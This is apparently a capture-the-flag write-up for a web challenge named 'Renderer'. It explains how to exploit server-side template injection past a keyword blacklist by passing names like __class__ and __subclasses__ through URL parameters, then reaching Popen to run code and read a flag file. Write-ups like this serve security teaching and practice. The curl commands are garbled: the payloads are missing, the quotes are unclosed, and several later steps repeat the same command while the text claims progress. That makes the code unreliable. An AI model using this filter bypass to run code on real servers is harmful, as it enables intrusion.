# [Web] Renderer - 250

We are given with the link to to https://renderer.project-ag.org



It asks for an input and prints your input back. Using the context of the challenge's title, we tried a simple SSTI payload `{{ 7 * 7 }}`. Screenshot below shows that it's actually vulnerable.



We thought that using the [usual](https://github.com/payloadbox/ssti-payloads), we would be able to get code execution but there's some blacklisting happening on the backend and we're receiving the error if we try the keywords `class`, `config`, or even just `__` (double underscore).



With this in mind, we thought that we have to bypass the blacklisting. We tried different keywords and writeups that bypasses SSTI and we found [this](https://ctftime.org/writeup/34179) writeup that has a bypass method. It uses the `` as the starting point for the payload build up. We tried using that payload and it worked



We proceeded to send payload `` and then we set `test1=aaaaaa` in the URL. The payload will print `test1` content.


```bash
curl 'https://renderer.project-ag.org/render?test1=aaaaa' -X POST --data 'name=&message=aaa
```




And as can be seen from the screenshot above, it manages to print the `test1` content which is `aaaaa`. The next thing we have to do is to buildup `request.__class__.__mro__[3].__subclasses__()` and from there, access Popen to execute code. 

We first tried to build is `request.__class__`. We can do this by setting up payload:


```bash
curl 'https://renderer.project-ag.org/render?test1=__class__' -X POST --data 'name=&message=aaa
```




Since it worked, turns out that the non-POST parameters are not being checked within the blacklisting. Next is accessing `request.__class__.__mro__`:


```bash
curl 'https://renderer.project-ag.org/render?test1=__class__&test2=__mro__' -X POST --data 'name=&message=aaa
```




Next is accessing `request.__class__.__mro__[3].__subclasses__`:


```bash
curl 'https://renderer.project-ag.org/render?test1=__class__&test2=__mro__&test3=__subclasses__' -X POST --data 'name=&message=aaa
```




Next is accessing `request.__class__.mro__[3].__subclassess__()`;


```bash
curl 'https://renderer.project-ag.org/render?test1=__class__&test2=__mro__&test3=__subclasses__' -X POST --data 'name=&message=aaa
```




Then we have to find the index of `Popen` class. Turns out it's in 503:




Next is accessing `request.__class__.mro__[3].__subclassess__()[503]`;


```bash
curl 'https://renderer.project-ag.org/render?test1=__class__&test2=__mro__&test3=__subclasses__' -X POST --data 'name=&message=aaa
```




Now we just have to execute the `Popen`. 


```bash
curl 'https://renderer.project-ag.org/render?test1=__class__&test2=__mro__&test3=__subclasses__' -X POST --data 'name=&message=aaa
```


And then we have managed to execute code:



Then we grabbed the flag by cat-ing `/tmp/flag.txt`


```bash
curl 'https://renderer.project-ag.org/render?test1=__class__&test2=__mro__&test3=__subclasses__' -X POST --data 'name=&message=aaa
```




